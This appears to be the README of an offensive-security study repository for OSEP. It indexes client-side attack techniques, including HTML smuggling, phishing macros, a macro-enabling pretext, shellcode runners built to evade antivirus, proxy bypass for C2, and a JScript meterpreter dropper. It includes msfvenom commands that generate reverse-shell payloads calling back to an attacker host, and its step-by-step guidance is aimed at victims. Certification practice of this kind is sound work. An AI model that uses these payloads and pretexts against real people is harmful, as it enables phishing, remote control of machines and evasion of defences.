 # OSEP-Rebirth

## Table of Content

* 1.0 [Client Side - Phishing Attacks](#CSPhishing)
  * 1.1 [HTML Smuggling](#Smuggling)
  * 1.2 [VBA - Phishing](#VBAPhishing)
  * 1.3 [VBA - PreTexting](#VBAPreTexting)
  * 1.4 [VBA - VBA Shellcode Runner](#VBARunner)
  * 1.5 [Powershell - Shellcode Runner](#PSRunner)
  * 1.6 [PowerShell - Reflection Shellcode Runner](#PSReflection)
  * 1.7 [PowerShell - Bypass Proxy](#PSProxy)
* 2.0 [Client Side Code Execution With Windows Script Host](#CSWSH)
  * 2.1 [Jscript Meterpreter Dropper](#JscriptMeterpreter) 

# Client Side - Phishing Attacks<a name="CSPhishing"></a>


## HTML Smuggling<a name="Smuggling"></a>

### JavaScript code to trigger HTML Smuggling

* This technique will download a meterpreter payload once the web page is loaded by the user. (may be blocked by smart screen or other protections)

Codes can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.1-HTML_Smuggling">here</a>


## VBA - Phishing<a name="VBAPhishing"></a>

* This techniques will run a macro (once user enable them), that will download on disk a meterpreter payload and execute it hidden from the user.
* Tested using Office 2016 Pro
* The document must be saved in a Macro-Enabled format such as ".doc" or ".docm". The newer ".docx" will not store macros.

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.2-VBA_Phishing">here</a>

1. Make a script to download the payload in powershell.
Here is how download a file in powershell.

2. Combining the piece with VBA. Make a macro that will pull the meterpreter executable from our web server when the document is opened and macro are enabled. The delay is to allow the file to completely download. Finally the file is executed hidden from the user.


## VBA - PreTexting<a name="VBAPreTexting"></a>

### The Old Switcheroo

* This technique is used to trick the user to press on the "Enable Editing" and "Enable Content" button to allow macro execution.

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.3-VBA_PreTexting">here</a>

1. Create an "encrypted" word page content, something in the idea "This file is encrypted, please Enable Editing and Enable content to decrypt it".
2. Make a copy of this word document.
3. Delete the content, and create your "decrypted" content. If you'r target work in human resource, make a CV as example.
4. Once the content created, select it and navigate to "Insert > Quick Parts > AutoTexts" and "Save Selection to AutoText Gallery.
5. Pick a name for the AutoText gallery.
6. Now that the content is stored, delete the content in the main text area and replace it with the content of our "encrypted" word document.
7. Create the VBA macro to replace the "encrypted" content with the "decrypted" content.

## VBA - VBA Shellcode Runner<a name="VBARunner"></a>

* This macro execute shellcode in memory by using Win32 APIs to avoid detection.
* Use the exit function "thread" while generating the payload to avoid word to close when the shellcode exit.
* If the victim close Word, our shell will die.

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.4-VBA_VBA_Shellcode_Runner">here</a>

1. Generate a msf payload formatted as vbapplication.
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.22 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. Create the macro adding your generated array payload to it.


## PowerShell - Shellcode Runner<a name="PSRunner"></a>

* This macro download a PowerShell script and run it into memory. Then it will launch the PowerShell script as child process to avoid losing our shell once the victime close Microsoft Word. 

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.5-PowerShell_Shellcode_Runner">here</a>

1. Generate the shellcode in PowerShell format using msfvenom.
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.22 LPORT=443 EXITFUNC=thread -f ps1
```

2. Create "run.ps1" script.

3. Create the VBA macro which will download the ps1 code in memory and execute it.


## PowerShell - Reflection Shellcode Runner<a name="PSReflection"></a>

* This PowerShell script avoid creating artifacts on the hard drive that may be identified by Anti Virus.

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.6-PowerShell_Reflection_Shellcode_Runner">here</a>

1. Generate the shellcode in PowerShell format using msfvenom.
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.22 LPORT=443 EXITFUNC=thread -f ps1
```

2. Create "run.ps1" script.

3. Create the VBA macro which will download the ps1 code in memory and execute it.


## PowerShell - Bypass Proxy<a name="PSProxy"></a>

Code can be found <a href="/Collections/1.0-Client_Side_Phishing_Attacks/1.7-PowerShell_Bypass_Proxy">here</a>

### Proxy-Aware Communication
* Bypass proxy server when downloading file with PowerShell, by nulling the proxy settings 
* Customize User-Agent

### SYSTEM integrity proxy-aware download cradle

* Handle communication through a proxy, even as SYSTEM.
* HTTP request is routed through the proxy server and will allow our download cradle to call back to our C2 even when all traffic must go through the proxy.


# Client Side Code Execution With Windows Script Host<a name="CSWSH"></a>

* Use JScript file format to execute Javascript on Windows targets through the Windows Script Host.

## Jscript Meterpreter Dropper<a name="JscriptMeterpreter"></a>

* This dropper download a Meterpreter executable from a web server and execute it.

Code can be found <a href="/Collections/2.0-Client_Side_Code_Execution_With_WSH/2.1-JScript_Meterpreter_Dropper">here</a>

